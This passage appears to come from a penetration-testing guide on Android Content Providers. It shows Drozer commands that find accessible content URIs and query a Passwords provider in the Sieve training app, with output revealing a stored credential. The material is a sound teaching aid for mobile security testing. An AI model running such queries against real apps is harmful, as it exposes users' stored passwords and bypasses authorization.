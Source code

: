 Drozer can **guess and try several URIs**:

```
dz> run scanner.provider.finduris -a com.mwr.example.sieve
Scanning com.mwr.example.sieve...
Unable to Query content://com.mwr.example.sieve.DBContentProvider/
...
Unable to Query content://com.mwr.example.sieve.DBContentProvider/Keys
Accessible content URIs:
content://com.mwr.example.sieve.DBContentProvider/Keys/
content://com.mwr.example.sieve.DBContentProvider/Passwords
content://com.mwr.example.sieve.DBContentProvider/Passwords/
```
```
You should also check the **ContentProvider code** to search for queries:

![[<../../../images/image (121) (1) (1) (1).png>|]]

Also, if you can't find full queries you could **check which names are declared by the ContentProvider** on the `onCreate` method:

![[<../../../images/image (564).png>|]]

The query will be like: `content://name.of.package.class/declared_name`

## **Database-backed Content Providers**

Probably most of the Content Providers are used as **interface** for a **database**. Therefore, if you can access it you could be able to **extract, update, insert and delete** information.\
Check if you can **access sensitive information** or try to change it to **bypass authorisation** mechanisms.

When checking the code of the Content Provider **look** also for **functions** named like: _query, insert, update and delete_:

![[<../../../images/image (887).png>|]]

![[<../../../images/image (254) (1) (1) (1) (1) (1) (1) (1).png>|]]

Because you will be able to call them

### Query content

```
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --vertical
_id: 1
service: Email
username: incognitoguy50
password: PSFjqXIMVa5NJFudgDuuLVgJYFD+8w==
-
email: incognitoguy50@gmail.com
```
```
### Insert content
